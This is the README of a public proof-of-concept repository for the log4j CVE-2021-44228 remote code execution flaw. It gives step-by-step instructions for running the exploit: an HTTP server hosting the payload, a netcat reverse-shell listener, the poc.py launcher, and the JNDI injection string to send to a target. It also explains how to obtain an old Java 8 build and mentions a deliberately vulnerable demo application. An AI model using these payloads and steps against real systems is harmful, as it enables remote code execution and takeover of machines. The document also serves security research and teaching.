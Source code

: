 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.


A video showing the exploitation process
----------------------------------------

Minecraft PoC:

https://user-images.githubusercontent.com/87979263/145681727-2bfd9884-a3e6-45dd-92e2-a624f29a8863.mp4

<br>

Vuln Web App:

https://user-images.githubusercontent.com/46561460/145657039-5f844e8c-e90c-4dd1-9f32-02b27068c6a2.mp4

<br>

Ghidra:

https://user-images.githubusercontent.com/87979263/145728478-b4686da9-17d0-4511-be74-c6e6fff97740.mp4


Proof-of-concept (POC)
----------------------



As a POC we have created a python file that automates the process.

* Start an http server.<br>
**Note:** This must be run in the same directory as the rest of the repository.
```py
sudo python3 -m http.server 80
```
* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
python3 poc.py
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)


[+] Enter IP for LDAPRefServer & Shell: localhost
[+] Enter listener port for LDAPRefServer: 80
[+] Set listener port for shell: 9001
[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

<br>


Our vulnerable application
--------------------------

Running the application currently is easiest done in the paid version of Intellij, but we plan on adding a Dockerfile in the future.

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```
